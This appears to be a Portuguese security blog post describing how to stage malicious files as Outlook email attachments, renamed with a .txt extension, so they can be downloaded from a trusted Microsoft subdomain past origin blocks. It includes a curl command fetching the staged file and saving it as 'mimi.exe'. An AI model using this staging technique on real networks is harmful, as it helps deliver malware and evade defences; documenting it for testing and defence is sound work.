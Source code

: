 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para Armazenar Arquivos Maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos.
Isso nos permite realizar o upload/download de arquivos maliciosos através de um “local confiavel” por se tratar de um subdomínio do Outlook.


## Passos para reproduzir
Primeiramente devemos modificar nosso arquivo malicioso adicionando uma extensão de texto (.txt), se o ambiente em que queremos realizar o download é um Windows, muito provavelmente o arquivo malicioso será um executavel (.exe).

No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando *cp* para copiar o arquivo original e cria uma cópia dele arquivo adicionando a extensão de texto, nesse caso ficaria algo como: *arquivo.exe.txt*

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos abrir o Outlook e irmos na opção “Nova Mensagem” e nela anexar nosso arquivo modificado e enviar para um qualquer destino (nesse exemplo estamos encaminhando para um endereço de e-mail temporario) pois o que nos interessa é o link do arquivo para download.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos podemos ir em *Itens Enviados* e clicar para baixar para realizar o download mas também obter o link direto do arquivo em Downloads do Navegador > Botão direito >  Copiar link.

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o link direto em mãos podemos realizar o download através do PowerShell do Windows utilizando o comando Curl, basta que utilizemos o comando: curl "link_do_arquivo.com.br" -o mimi.exe

O comando realizará o download do arquivo salvando em sua extensão padrão (um executavel).

![bh-Look](../assets/img/2021-12-06/IMG09.png)


## Prova de Conceito (PoC)


![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executaveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo técnica seria útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” poderíamos realizar o download de sem problemas.
